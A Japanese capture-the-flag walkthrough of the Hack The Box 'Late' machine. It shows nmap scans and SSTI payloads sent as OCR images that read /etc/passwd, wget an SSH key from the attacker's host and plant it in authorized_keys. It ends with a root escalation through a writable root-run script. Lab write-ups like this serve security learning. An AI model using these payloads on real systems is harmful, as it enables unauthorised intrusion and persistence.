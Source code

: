 # Late  
Hack The Box : LateのWriteupです。  

| 作成者 | 難易度 | プラットフォーム |  
|:----:|:-----:|:---------------:|
| kavigihan | Easy | Linux |  

### foothold  

まずはnmap  

~~~
┌──(kali㉿kali)-[~/htb/late]
└─$ nmap -sV -n -Pn -A -p 21-25,35,43,69,80-88,107-110,115,118,123,137-139,143,156,161-162,220,384,389,443-445,465,514,530,543-544,591,593,636,901-903,953,992,995,1025,1433-1434,1812,3000,3306,3389,3535,5000,5432,5555,7777,8008,8065,8080,8443,8888 late.htb     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-06-10 22:12 EDT
Nmap scan report for late.htb (10.129.72.68)
Host is up (0.24s latency).
Not shown: 66 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.42 seconds
                                                                                                                                                       
┌──(kali㉿kali)-[~/htb/late]
└─$ sudo nmap -sS -n -p- late.htb      
Starting Nmap 7.91 ( https://nmap.org ) at 2022-06-10 22:13 EDT
Nmap scan report for late.htb (10.129.72.68)
Host is up (0.23s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 391.91 seconds

~~~  

80番が開いているのでFirefoxでアクセスする。  
  
"images.late.htb"が見つかるので/etc/hostsに追記して下記にアクセスする。  
> hxxp://images.late.htb/  

画像を送信できそうなので、GIMPで"TEST"とだけ書いた画像を作成し、送信する。  
するとresult.txtが返ってくる。  
"TEST"と書かれており、OCRだということが分かる。  

続いて、__\{\{7\*7\}\}__ と書いた画像を作成し、送信する。  
すると"49"が返ってくるので、**SSTI** 可能だということがわかる。  

### user

とりあえず同様の方法で下記の文字列を送信してみる。  
フォントはArialかArial Italicを使用した。  

~~~
{{ get_flashed_messages.__globals__.__builtins__.___import__("os").popen("cat /etc/passwd").read() }}  
~~~  
※OCRなので一部が適切に認識されないことがある。  
その場合は先頭の"{{"を消して送信してみると良いかもしれない。  

上記の実行結果から"svc_acc"ユーザが存在していることが分かる。  

この時点でコマンドの実行可能なのでuser.txtは取得可能だが、権限昇格ステップでコマンドを自由に実行するために"svc_acc"の.ssh/authorized_keysにこちらで用意したsshキーを送り込むことにする。  

まずは下記コマンドを実行してsshキーを用意する。  
~~~
$ ssh-keygen ./id_rsa  
~~~
webサーバを起動してキーを配布できるようにする。  
~~~
$ python3 -m http.server 80  
~~~  

GIMPで下記を画像にし、送信する。※\[IP]部分は適宜入れ替える  
~~~
{{ get_flashed_messages.__globals__.__builtins__.___import__("os").popen("wget [IP]/id_rsa.pub").read() }}  
~~~  
続いて下記を画像にし、送信する。  
~~~
{{ get_flashed_messages.__globals__.__builtins__.___import__("os").popen("cat id_rsa.pub >>  /home/svc_acc/.ssh/authorized_keys ").read()  }}  
~~~  
これでsshキーの登録はできたのでsshで接続する。  
~~~
$ ssh -i id_rsa svc_acc@late.htb  
~~~  
以上でUserのSSHシェル取得が完了。  
### root  
pspy64を送り込んで実行し、プロセスを見る。  

時々“/usr/local/sbin/ssh-alert.sh”がrootによって実行されている事が分かる。
また、“/usr/local/sbin/ssh-alert.sh”の権限見ると、svc_accでも書き込み可能になっていることが分かる。  

このシェルスクリプトに実行したいコマンドを追加してroot権限でコマンドを実行することにする。  

追加するコマンドは下記
~~~
cat /root/root.txt >> /home/svc_acc/root.txt
~~~  
※プロセスを見るとわかるが、高頻度で別の場所にあるorigin版に置き換えられているため、vi等のテキストエディタで開くと失敗する可能性がある。その場合はechoコマンドを使って追記する。  

名前にある通りsshに関するアラートのスクリプトのようなので、sshでのログインやログアウトをしてみる。  

svc_accのホームを確認するとroot.txtが存在しており、root権限取得の完了となる。